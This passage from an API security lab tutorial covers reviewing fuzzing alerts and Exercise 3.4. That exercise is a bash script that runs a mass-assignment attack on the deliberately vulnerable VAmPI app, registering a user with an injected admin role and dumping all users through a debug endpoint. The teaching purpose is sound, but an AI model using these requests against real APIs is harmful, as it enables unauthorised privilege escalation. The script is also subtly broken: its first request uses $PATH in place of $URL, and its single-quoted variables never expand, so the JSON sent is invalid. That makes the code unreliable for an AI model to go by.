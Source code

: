 4. Go to Akamai API Security portal at [Akamai API Security Portal](https://app.neosec.com/)
5. Log in with lab credentials from Lesson 1
6. Review the Alerts

![Book Fuzzing Alert Page](media/book-id-fuzz.jpg)

![Book Fuzzing Alert Example](media/book-id-fuzz-detail.jpg)

### Exercise 3.4 - Mass Assignment

In a Mass Assignment scenario, the client sends a request to an endpoint with additional JSON properties. Attackers often add JSON properties such as `'is_admin'`, `'role'`, etc. to bypass access controls. The script generates request to the register endpoint with additional JSON properties in order to try and register as an admin. Us the following steps to run this attack against VAmPI. 

1. From the command line run the following command:

                cd ~/API_Sec_Lab/files
                ./mass-assign.sh

2. The code for this script for your review below:

                #!/bin/bash

                HOST=192.168.100.45
                PORT=5000
                NEWUSER=test1
                NEWPASS=test1
                URL=/users/v1/register

                curl -s -X POST -H 'Content-Type: application/json' -d '{"username":$NEWUSER,"password":$NEWPASS, "email":"test1@test.com"}' http://$HOST:$PORT$PATH --insecure

                echo "You should see a successfully registered output"
                sleep 5
                clear
                echo "Now we will run a debug of all user data to see our new user"
                sleep 1
                curl -X GET -H 'Connection: close' --insecure http://$HOST:$PORT/users/v1/_debug
                echo ""
                echo "You should see a user named test1 now"
                sleep 5
                clear
                echo "Now we will see if we can create an admin user via the API"
                echo "We will use the following command:"
                echo ""
                echo "curl -s -X POST -H 'Content-Type: application/json' -d '{"username":"test2","password":"test2", "email":"test2@test.com", "role":"admin"}' http://$HOST:$PORT$URL --insecure"
                echo ""
                echo ""
                curl -s -X POST -H 'Content-Type: application/json' -d '{"username":"test2","password":"test2", "email":"test2@test.com", "role":"admin"}' http://$HOST:$PORT$URL --insecure
                echo ""
                echo "You should see a success message, but we will double check using the debug call from before."
                echo ""
                curl -X GET -H 'Connection: close' --insecure http://$HOST:$PORT/users/v1/_debug
                echo ""
                echo "You should see the test2 user is an admin user now. You can play around on the CLI and modify the above command to test."
                sleep 5
                clear
